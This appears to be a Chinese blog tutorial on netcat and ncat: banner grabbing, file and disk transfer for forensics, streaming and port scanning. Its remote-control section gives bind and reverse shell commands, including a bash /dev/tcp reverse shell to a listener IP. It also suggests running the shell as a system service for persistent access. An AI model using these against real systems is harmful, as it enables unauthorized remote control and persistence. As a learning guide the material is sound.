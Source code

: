 # 工具 - netcat使用




# netcat使用


## 简介
- 侦听模式/传输模式
- 可以替代telent  / 获取banner信息
- 传输文本信息
- 传输文件/目录
- 加密传输文件
- 远程控制/木马
- 加密所有流量
- 流媒体服务器
- 远程克隆硬盘


## 基本用法
####  <font color=red>1. 实现telnet / banner</font>
```bash
# 题外话:追踪路由
mtr 114.114.114.114 

## nc作为客户端：
# 参数 -v  显示详细信息 
# 参数  -n  如果是域名,不进行域名解析(建议直接跟ip地址)
nc -nv 1.1.1.1 110   # 连接pop3服务器，可以看到banner信息（可以进行user登录[base64编码],输入指令）
nc -nv 1.1.1.1 25    # smtp服务器
nc -nv 1.1.1.1 80    # 探测80端口(都可进行交互的命令)

```

####  <font color=red>2.传输文本信息</font>
```bash
# 可以做聊天用
# 一台作为服务端    -l 监听, -p 端口
nc -l -p 4444
# 另一台作为客户端去连接服务端
nc -nv 1.1.1.1 4444

```
![](http://image.geoer.cn/nc_use.png)

###### 用途：
**远程电子取证** (原则:尽可能少修改被审计系统的状态，避免影响证据)
就可以用`nc`来操作:
我的电脑: `nc -l -p 3333`  监听
被审计系统:`ls -l | nc -nv 1.1.1.1 3333` 输出到我的电脑

我的电脑: `nc -l -p 3333 > ps.txt`   输出结果重定向到文件
被审计系统:`ps -ef | nc -nv 1.1.1.1 3333 -q 1`    参数-q: 输出完成之后过1秒就断开

题外话：`lsof` 查看已经打开的文件



####  <font color=red>3.传输文件/目录</font>
###### 传输文件
```bash
# 客户端向服务端传输  （正向） 
A： nc-lp 3333 > 1.mp4
B:  nc -nv 1.1.1.1 3333 < 1.mp4 -q 1
# 或者, 服务端向客户端传输文件  （反向）
A:  nc -q 1 -lp 3333 < a.mp4
B:  nc -nv 1.1.1.1 3333 > 2.mp4
```

###### 传输目录
```bash
# 正向(服务端先打包再传给客户端,注意小横线别遗漏)
A:  tar -cvf - music/ | nc -lp 3333 -q 1
B:  nc -nv 1.1.1.1 3333 | tar -xvf -     # 先接收再解包
```

###### 加密传文件
```bash
A： nc -lp 3333 | mcrypt --flush -Fbqd -a rijndael-256-m ecb > 1.mp4     # 接收，解密
B： mcrypt --fulsh -Fbq -a rijndael-256-m ecb < a.mp4 | nc 1.1.1.1 3333 -q 1   # 加密，传送
# 需要输入加密秘钥，解密秘钥
# 不是nc的加密功能，是操作系统的加密命令，可以自行安装
```

#### <font color=red>4.流媒体</font>
```bash
#把视频流输出到B端
A:  cat 1.mp4 | nc -lp 3333
B:  nc -nv 1.1.1.1 3333 | mplayer -vo x11 -cache 3000 -
#接收视频流，输出给指定播放器和缓存进行播放
```

#### <font color=red>5.端口扫描</font>
>以客户端角色
```bash
#并非擅长端口扫描
#参数 -z 扫描参数，只判断是否开放（默认tcp）
nc -nvz 1.1.1.1 1-65535
#参数 -u  扫描udp服务的端口 （不太准确）
nc -nvzu 1.1.1.1 1-1024
```

#### <font color=red>6.远程克隆硬盘</font>
**远程电子取证**，可以将目标服务器硬盘远程复制(`块`级别的备份,`磁盘磁道的状态原原本本的复制`)，或者内存(内存中运行的病毒进程)
```bash
A:  nc -lp 3333 | dd of=/dev/sda
B:  dd -if=/dev/sda | nc -nv 1.1.1.1 3333 -q 1
```

####  <font color=red>7.远程控制</font>
参数: -c 
**正向：**   目标机器作为服务端监听, 把bash传给我
```bash
A:  nc -lp 3333 -c bash   #目标机器
B:  nc 1.1.1.1 3333
```
**反向：**    我的机器作为服务端, 让目标机器作为客户端主动连接我(客户端把bash传给服务器端)
```bash
A:  nc -lvp 3333       
B:  nc 1.1.1.1 3333 -c bash    #目标机器

#假如nc不支持-c 或者 -e 参数（openbsd netcat）,我们仍然能够创建远程shell
目标机器： bash -i >& /dev/tcp/192.168.41.133/2223 0>&1
攻击方： nc -lvvp 2223
```

>Note: Windows用户把bash改为cmd

> 反向连接用的多， 因为好多都限制进入的流量而不太多限制出去的流量(根据他允许的端口调整,比如dns)

> 长久维持会话： 写成脚本作为系统服务，让目标机器已启动就连接我



## ncat 命令
<font color=red> **nc缺陷：**</font>
- nc缺乏加密能力：是数据是明文传输（容易被别人嗅探）
- 缺乏身份验证能力：端口如果一直向外开放，容易被他人连接窃取当做肉鸡
- 不同系统/平台的nc参数功能不尽相同（自己 -h 查看帮助文档和测试）

<font color=red> **ncat 命令**</font>
是包含在nmap工具包中里面的一个东西(弥补了nc缺乏加密和身份验证的不足)

正向连接：
```bash
#先进行了秘钥交换和加密
#被控端(服务器端)   -allow允许连接的ip， 端口, ssl加密
A:  ncat -c bash -allow 192.168.1.20 -vnl 3333 --ssl
B:  ncat -nv 192.168.1.19 3333 --ssl      #攻击端
```

## 其他
... ...




---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/%E5%B7%A5%E5%85%B7-netcat%E4%BD%BF%E7%94%A8/  

